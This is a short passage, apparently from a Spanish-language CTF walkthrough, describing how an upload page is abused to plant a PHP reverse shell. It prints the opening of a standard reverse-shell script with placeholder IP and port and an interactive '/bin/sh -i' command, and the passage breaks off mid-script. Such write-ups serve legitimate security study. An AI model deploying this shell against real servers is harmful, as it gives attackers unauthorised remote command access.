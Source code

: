 ![img](/assets/img/imagenes/2023-10-06_14-56.png)

###### Podemos ver que ahora tenemos acceso a la pestana de Uploads. parace que podemos subir archivos a esta pagina. asi que intentaremos subir un archivo malisioso para intentar consegir una reverseShell

buscamos en internet una reverseshell.php

shell.php
```python
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
```